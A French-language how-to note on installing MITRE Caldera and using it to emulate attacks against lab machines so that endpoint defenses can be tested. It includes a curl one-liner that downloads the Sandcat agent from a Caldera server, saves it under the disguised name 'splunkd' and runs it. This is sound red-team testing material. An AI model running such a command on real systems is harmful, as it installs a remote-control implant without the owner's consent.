 ```yaml
---
Title: Mitre Attack test with Cladera
Type: Doc
Nature: Notes
Création: 10/05/2021
---
```


# Mitre Attack test with Cladera
## Introduction

> CALDERA™ is a cyber security framework designed to easily automate adversary emulation, assist manual red-teams, and automate incident response. It is built on the [MITRE ATT&CK framework](https://attack.mitre.org/) and is an active research project at MITRE

Caldera fonctionne en mode client/server (agent/server). Il peut être utilisé soit pour les opérations offensives(red) ou défensives (blue) et de [différentes manières ](https://caldera.readthedocs.io/en/latest/Getting-started.html)(autonomous red-engagements, autonomous incident-response, …).

Dans cette note, nous allons voir le mode "autonomous red-engagements" afin de lancer les attaques sur une cible pour tester, entre autres, les solutions de défense installées sur la machine comme le XDR, l'EPP, l'antivirus, ….

## Installation de Caldera
### Prerequis
- Linux or MacOS operating system
- Python 3.6.1+ (with pip3)
- NB : Recommanded
  - [GoLang](https://golang.org/doc/install)[ ](https://golang.org/doc/install)1.13+ (for optimal agent functionality)
  - Google Chrome browser
  - Hardware: 8GB+ RAM and 2+ CPUs

### Installation
Exécuter la commande
```
# Installation manuelle
git clone https://github.com/mitre/caldera.git --recursive --branch 3.1.0
cd caldera
# install the pip requirements
sudo pip3 install -r requirements.txt

# Start the server
python3 server.py

# Installation via Docker
## clone the repository
git clone https://github.com/mitre/caldera.git --recursive --branch 3.1.0
cd caldera
## Next, build a container
docker build . -t caldera:server
docker run -p 7010:7010 -p 7011:7011 -p 7012:7012 -p 8888:8888 caldera:server
```
 Accéder à l'interface web
> Once started, log in to http://localhost:8888 with red or blue password. To modify these values, edit the conf/local.yml file
NB : (Manual installation) with the red using the password found in the conf/local.yml file (this file will be generated on server start).

## Use cases
### Déploiement d'agent

Sur chaque machine "victime", un agent Caldera doit être installé afin de pouvoir exécuter les attaques. Nous allons utiliser le mode "[Autonomous red-engagements](https://caldera.readthedocs.io/en/latest/Getting-started.html#autonomous-red-team-engagements)" puis que notre but est de tester les solutions de sécurité.Pour ce faire :
1. Se connecter à l'interface avec le compte "**red**" et son mot de passe
2. Dans l'interface du serveur Caldera, cliquer sur "**Navigate**"
3. Sous "**Campaigns**", cliquer sur "**agents**", puis sur "**Click here to deploy an agent**"
4. Entrer les informations nécessaires pour générer la commande d'installation de l'agent :
   - a. Type d'agent: Sandcat (54ndc47) (par exemple). C'est un agent Goland qui communique avec le serveur via http(s)
   - b. La plateforme (OS) de la machine cible : Linux (par exemple)
   - c. l'URL du serveur Caldera : http(s)://server\_ip:8888
   - d. Agent implant name (optionnel) : Nom de la machine victime une fois "possédée" (ex : ubuntud)
5. Exécuter ensuite la commande "**A GoLang agent which communicates through the HTTP contact (sh)**" sur la machine "victime" pour installer l'agent :
```
server="http://192.168.1.19:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;chmod +x splunkd;./splunkd -server $server -group red -v
```
> NB : S'assurer que l'agent apparait bien

### Choix d'un profile d'attaque (adversary profile)
Pour lancer des attaques sur la victime (machine cible), il faut choisir un profile d'attaque. Chaque profile correspond à une catégorie de techniques d'attaque de la matrice MITTRE ATT&CK.
> NB : The “Discovery” and “Hunter” adversaries from the Stockpile plugin are good starting profiles.

1. Aller dans Navigate > Adversaries
2. Sélectionner un profile

### Exécution d'une opération
Une fois le profile choisit, on peut lancer l'attaque sur la machine en choisissant une oprétaion.
1. Aller dans Navigate > Operation
2. Entrer le nom de l'opération
3. Sélectionner un agent et d'autres informations
4. Lancer l'opération
> NB :
> - On peut suivre l'exécution des tests en temps réel. En cliquant sur les stars (étoiles), on peut voir le résultat du test.
> - Les tests marqués en "**vert**" sont ceux qui ont réussi.
> - A la fin de l'opération aussi, on peut générer le rapport ou les logs pour voir les détails.

# Documentation
- Full documentation, training and use cases : https://caldera.readthedocs.io/en/latest/
- Github : https://github.com/mitre/caldera
- Releases : https://github.com/mitre/caldera/releases
